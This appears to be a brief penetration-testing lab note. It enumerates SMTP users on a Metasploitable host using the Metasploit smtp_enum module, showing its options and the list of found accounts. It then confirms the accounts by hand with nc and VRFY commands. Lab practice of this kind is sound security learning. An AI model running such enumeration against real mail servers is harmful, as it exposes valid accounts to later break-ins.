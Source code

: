 <pre>25/tcp   open  smtp        Postfix smtpd</pre>

user enumaration using SMTP
using metaspolit framework auxiliary

<pre>msf6 > search smtp_enum</pre>

<pre>Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_enum  .                normal  No     SMTP User Enumeration Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_enum</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 auxiliary(scanner/smtp/smtp_enum) > show options </pre>

<pre>Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.</pre>




<pre>msf6 auxiliary(scanner/smtp/smtp_enum) > set rhosts A.B.C.D</pre>

<pre>msf6 auxiliary(scanner/smtp/smtp_enum) > exploit</pre>
   
<pre>[*] 192.168.161.131:25    - 192.168.161.131:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

[+] 192.168.161.131:25    - 192.168.161.131:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

[*] 192.168.161.131:25    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed</pre>


## <pre>verify</pre>


<pre>└─$ nc 192.168.161.131 25
220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
VRFY daemon
252 2.0.0 daemon
VRFY games
252 2.0.0 games</pre>>

